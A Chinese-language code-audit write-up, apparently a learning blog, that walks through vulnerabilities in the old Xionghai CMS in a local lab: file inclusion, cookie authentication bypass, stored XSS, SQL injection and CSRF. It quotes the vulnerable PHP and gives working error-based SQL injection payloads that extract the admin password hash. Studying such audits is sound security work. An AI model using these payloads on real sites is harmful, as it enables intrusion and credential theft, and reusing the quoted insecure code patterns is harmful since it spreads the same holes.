

0x00 简言
大佬说万物起源于代码审计。在解题和项目过程中确实因为代码原因没有get到一些知识点，现在我想开始重新学习一下代码审计，不管是挖掘漏洞还是工具开发代码是绕不过去的一道坎，哈哈哈。
0x01 环境安装
主机：Windows 10
PHP环境搭建：PHPstudy Pro_8.1.1.3
PHP版本：5.5.9
Mysql版本：5.7.26
Xdebug测试：PHPStorm_2021.1.3 + Xdebug_2.5.5 + Chrome_91.0.4472.77 + Xdebug helper_1.6.1(Chrome extension)0x02 熊海cms安装
熊海cms的源码我放在百度云了，欢迎下载。
提取码：h0td
如果在用phpstudy进行环境搭建的话，想要安装phpmyadmin进行数据库的GUI搭建，这里的php版本要拿捏到位，因为我会去测一些比较老的cms进行学习，那phpstudy上的phpmyadmin需要的php的版本要大于5.5，而上面所说的cms可能要求版本就会不同，会导致报错。
创建数据库：
后面就按部就班来，最后安装成功：
0x03 Seay源代码审计系统
我们用Seay源代码审计系统进行代码审计扫描：
0x04 代码审计
i. 文件包含漏洞

这里可以看到就是一个addslashes函数过滤get的到的r参数，然后进行index判断，最后进行文件包含。
我们在根目录下写了一个1.php的文件。然后我们尝试着去包含该文件。
首先我们先抓包。
然后我们尝试着用文件名截断的方法去进行截断后面的‘.php’。
截断有三种方法：
1、%00截断（GPC=OFF、不能被addslashes等函数（会影响空白字符）处理、ver<PHP5.3.4）
2、?截断 （需要get传参）
3、利用多个英文句号(.)和反斜杠(/)来截断（无视GPC） php版本小于5.2.8可以成功，只适用windows，点号需要长于256/ 我这里做了很多截断方法，虽然确实这里存在一个php的文件包含，通过打断点去检测流程，更换PHP的版本一直未能进行截断，但是代码审计：熊海cms 首页文件包含漏洞复现截断成功了。
ii. cookie越权伪造
在端点调试后台的登录验证机制的时候，index.php文件和我们之前文件包含的文件是一样的，我首先输入正确的用户名和密码进行断点检测。
之后我们进入包含文件login.php。
<?php
ob_start();
require '../inc/conn.php';
$login=$_POST['login'];
$user=$_POST['user'];
$password=$_POST['password'];
$checkbox=$_POST['checkbox'];
if ($login<>""){
$query = "SELECT * FROM manage WHERE user='$user'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$users = mysql_fetch_array($result);
if (!mysql_num_rows($result)) {
echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
exit;
}else{
$passwords=$users['password'];
if(md5($password)<>$passwords){
echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
exit;
}
//写入登录信息并记住30天
if ($checkbox==1){
setcookie('user',$user,time()+3600*24*30,'/');
}else{
setcookie('user',$user,0,'/');
}
echo "<script>this.location='?r=index'</script>";
exit;
}
exit;
ob_end_flush();
}
?>然后进入../inc/conn.php文件
<?php
error_reporting(0);
header('Content-Type:text/html;charset=utf-8');
require 'conn.info.php';
//常量参数
define('DB_HOST',$DB_HOST);
define('DB_USER',$DB_USER);
define('DB_PWD',$DB_PWD);
define('DB_NAME',$DB_NAME);
//第一步，连接MYSQL服务器
$conn = @mysql_connect(DB_HOST,DB_USER,DB_PWD) or die(header('Location: /install'));
//第二步，选择指定的数据库，设置字符集
mysql_select_db(DB_NAME) or die('数据库错误，错误信息：'.mysql_error());
mysql_query('SET NAMES UTF8') or die('字符集设置错误'.mysql_error());
date_default_timezone_set('PRC'); //设置中国时区
?>进入conn.info.php文件中获取数据库的账号和密码，然后进行连接数据库，最后回到login.php中对获得的账号密码进行查询验证。
<?php
$DB_HOST='localhost';
$DB_USER='admin';
$DB_PWD='password';
$DB_NAME='isea';
?>最后如果验证成功则会echo "<script>this.location='?r=index'</script>";通过这条语句进行再一次的访问，而r参数的值变为index。我们来看一下/file/index.php。
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$indexopen='class="open"';
?>跟着我们进入checklogin.php中。
<?php
$user=$_COOKIE['user'];
if ($user==""){
header("Location: ?r=login");
exit;
}
?>这里是个非常简单的判断，user为空则返回登录界面，当user不为空就直接访问后台页面。所以这里可以直接用cookie中的user判断直接进入后台，而不需要进行账号密码的验证。
iii. XSS漏洞
联系界面
首先我们抓包查看联系界面的执行步骤。
它这里同样是上传了一个r=submit的参数同时附加了一个type参数。先看到submit.php。
<?php
session_start();
require 'inc/conn.php';
$type=addslashes($_GET['type']);
$name=$_POST['name'];
$mail=$_POST['mail'];
$url=$_POST['url'];
$content=$_POST['content'];
$cid=$_POST['cid'];
$ip=$_SERVER["REMOTE_ADDR"];
$tz=$_POST['tz'];
if ($tz==""){$tz=0;}
$jz=$_POST['jz'];
if(strtolower($_POST['randcode'])<>addslashes($_SESSION['randcode'])){
echo "<Script language=JavaScript>alert('抱歉，验证码错误，请重新输入！');history.back();</Script>";
exit;
}
if (!$name<>""){
echo "<Script language=JavaScript>alert('抱歉，昵称不能为空！');history.back();</Script>";
exit;
}
if (!$mail<>""){
echo "<Script language=JavaScript>alert('抱歉，昵称不能为空！');history.back();</Script>";
exit;
}
if (!$content<>""){
echo "<Script language=JavaScript>alert('抱歉，您还没有告诉我您想说的话呢！');history.back();</Script>";
exit;
}
if (!preg_match("/([\x81-\xfe][\x40-\xfe])/", $content, $match)) {
echo "<Script language=JavaScript>alert('亲，再说点别的了吧？');history.back();</Script>";
exit;
}
if ($url<>""){
if (strstr($url, "http://"))
{
$url= $url;
}else{
$url= "http://".$url;
}
}
$content= addslashes(strip_tags($content));//过滤HTML
if ($type=='comment'){
$fhlink="/?r=content&cid=".$cid;
$fhname="评论";
$type=1;
}
if ($type=='message'){
$fhlink="/?r=contact";
$fhname="留言";
$type=2;
}
if ($type=='download'){
$fhlink="/?r=software&cid=".$cid;
$fhname="软件评论";
$type=3;
}
?>这里我们可以看到名字、邮箱和url都没有进行过滤，但是我们输入的内容进行了过滤。这里我们可以尝试写三个xss语句进行注入，然后登录界面或者后台查看哪个能进行反弹。
重新刷新后进行反弹。
进入后台同样也反弹了1。进入留言列表我们也看到了返回了1。同样我们打开内容浏览，发现注入进去了，但是没有进行显示所以我们邮箱和url注入只注入到了数据库中，如果管理员调用邮箱或者url的时候就会进行反弹。
后台基础设置
首先看到seitset.php
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$setopen='class="open"';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$site = mysql_fetch_array($resul);
$save=$_POST['save'];
$name=$_POST['name'];
$title=$_POST['title'];
$stitle=$_POST['stitle'];
$keywords=$_POST['keywords'];
$description=$_POST['description'];
$url=$_POST['url'];
$tel=$_POST['tel'];
$mail=$_POST['mail'];
$qq=$_POST['qq'];
$icp=$_POST['icp'];
$bottominfo=$_POST['bottominfo'];
$tongji=$_POST['tongji'];
if ($save==1){
if ($title==""){
echo "<script>alert('抱歉，标题不能为空。');history.back()</script>";
exit;
}
if ($url==""){
echo "<script>alert('抱歉，网址不能为空。');history.back()</script>";
exit;
}
$query = "UPDATE settings SET
name='$name',
title='$title',
stitle='$stitle',
keywords='$keywords',
description='$description',
url='$url',
tel='$tel',
mail='$mail',
qq='$qq',
icp='$icp',
tongji='$tongji',
bottominfo='$bottominfo',
date=now()";
@mysql_query($query) or die('修改错误：'.mysql_error());
echo "<script>alert('亲爱的，基本设置成功更新。');location.href='?r=siteset'</script>";
exit;
}
?>这里没有进行任何过滤，我们直接全部注入。
最后成功返回了3，7，11，10的弹窗。
iiii.SQL注入
登录界面
我们还是看到登录界面验证窗口，之前在审计Cookie越权访问的时候发现在验证user值的地方存在一个sql注入漏洞。
if ($login<>""){
$query = "SELECT * FROM manage WHERE user='$user'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$users = mysql_fetch_array($result);
if (!mysql_num_rows($result)) {
echo "<Script language=JavaScript>alert('抱歉，用户名或者密码错误。');history.back();</Script>";
exit;- mysql_query()函数执行一条 MySQL 查询。
- mysql_fetch_array()函数从结果集中取得一行作为关联数组，或数字数组。
- 这里对user值没有进行检测和过滤，因为存在mysql_error()函数可以进行报错注入。
payload：
1' or updatexml(1,concat((select concat(0x7e,password) from manage)),0)#
SQL语句有误：XPATH syntax error: '~5f4dcc3b5aa765d61d8327deb882cf9'
到这里发现md5解密少一位，这是因为报错长度有限制，接下来可以再用一次payload
1' or updatexml(1,concat((select concat(password,0x7e) from manage)),0)#
SQL语句有误：XPATH syntax error: 'f4dcc3b5aa765d61d8327deb882cf99~'
到这里发现少的一位是9，其实这里也可以爆破
其实还有一些payload，也是同样的效果
1' or extractvalue(1,concat((select concat(0x7e,password) from manage)))#
1' or extractvalue(1,concat((select concat(password,0x7e) from manage)))#
内容页面插入点$id没有进行引号包含
<?php
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);
$id=addslashes($_GET['cid']);
$query = "SELECT * FROM content WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$content = mysql_fetch_array($resul);
$navid=$content['navclass'];
$query = "SELECT * FROM navclass WHERE id='$navid'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$navs = mysql_fetch_array($resul);
//浏览计数
$query = "UPDATE content SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>$query = "UPDATE content SET hit = hit+1 WHERE id=$id";$id虽然在传入时就已经被过滤了单引号，但是在这句里面没有进行引号包含。执行结果如下。
email邮箱没有进行过滤
<?php
$mail=$_POST['mail'];
$query = "SELECT * FROM interaction WHERE( mail = '$mail')";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
?>可以看到这里的sql注入和我们之前的不一样，这里没有需要在原有的 ‘ 基础上 ) 然后进行注入。
其实这里还有很多sql注入，但是类型都是相同的，所以我选择了几个典型的进行总结
iiiii. CSRF
可以看到wzlist.php这个文件。
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$wzlistopen='class="open"';
$pageyema="?r=wzlist&page=";
$delete=$_GET['delete'];
if ($delete<>""){
$query = "DELETE FROM content WHERE id='$delete'";
$result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
echo "<script>alert('亲，ID为".$delete."的内容已经成功删除！');location.href='?r=wzlist'</script>";
exit;
}
?>
这里有三篇文章，id分别为18，19，20。这里我们尝试着去删除id为18的这篇文章。
返回了如下内容。
这里执行了sql语句，而且没有token验证，所以我们再次访问也是如上内容。所以当我们把id更改为19时，则会把id为19的文章删除。
所以我们可以进行诱导，让管理员点击则可以达到删除文章的目的。
ok到此就时熊海cms代码审计的全过程了，虽然有一些漏洞审出来了，但是漏洞的执行情况都是一样的，全部写出来有点浪费时间了，接下来我会去审计一些有意思的漏洞。